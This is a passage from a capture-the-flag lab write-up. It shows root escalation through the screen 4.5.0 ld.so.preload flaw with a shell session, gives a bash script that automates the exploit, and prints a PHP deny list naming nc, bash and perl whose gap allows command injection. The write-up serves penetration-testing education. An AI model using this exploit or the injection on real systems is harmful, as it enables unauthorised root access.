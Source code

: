 We will then check the ld.so.preload to ensure that it is now linked to /tmp/libhax.so

```
www-data@haircut:/etc$ cat ld.so.preload
cat ld.so.preload
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!

/tmp/libhax.so
```

Finally, all we have to do is to execute the /tmp/rootshell to obtain root privileges

```
www-data@haircut:/etc$ /tmp/rootshell     
/tmp/rootshell
# whoami
whoami
root
```

### Obtaining root flag

```
# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>
```

## Beyond root
### Privilege Escalation to root shell

The privilege escalation can be automated with a simple script below:

```
#!/bin/bash
cd /etc
echo "[+] Setting unmask..."
umask 000
echo "[+] Executing screen to link libhax.so to /etc/ld.so.preload"
screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
echo "[+] Executing rootshell"
/tmp/rootshell 
```

### Command Injection

Checking /var/www/html/exposed.php, we can find a list of characters that are being banned on the backend. However, $ is not being banned from the backend which resulted in the command injection that we can exploit.

```
$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']');
foreach($disallowed as $naughty){
    if(strpos($userurl,$naughty) !==false){
        echo $naughty.' is not a good thing to put in a URL';
        $naughtyurl=1;
    }
}
```
